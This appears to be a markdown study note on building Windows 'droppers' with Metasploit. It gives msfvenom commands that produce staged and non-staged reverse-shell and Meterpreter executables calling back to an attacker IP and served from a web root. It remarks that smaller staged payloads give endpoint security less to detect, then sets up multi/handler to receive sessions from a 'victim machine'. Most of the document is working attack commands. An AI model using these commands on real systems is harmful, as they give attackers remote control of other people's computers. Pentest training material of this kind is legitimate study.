




# Create Dropper Using Msfconsole

## Build regular executeable non-staged payload using msfvenom
```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=444 -f exe -o /var/www/html/shell.exe
```


## Build regular executeable staged payload using msfvenom
```
sudo msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.120 LPORT=444 -f exe -o /var/www/html/shell.exe
```

## Comparison between staged and non staged payload
Build the payload
```
sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfnonstaged.exe

sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
```

Result

```
Notice that the non-staged payload is nearly thirty times larger than the staged payload. 

This significantly smaller payload provides less detection surface for endpoint security solutions.
```

## Using staged payload
In order to use staged payloads, we'll need to use the multi/handler. 

This Metasploit module listens for incoming callbacks from staged payloads and delivers the second stage.
```bash
use multi/handler

set payload windows/x64/meterpreter/reverse_https
```


With the multi/handler module running, we can download our msfstaged.exe executable and run it on our victim machine. Then, we'll turn our attention to the output from Metasploit
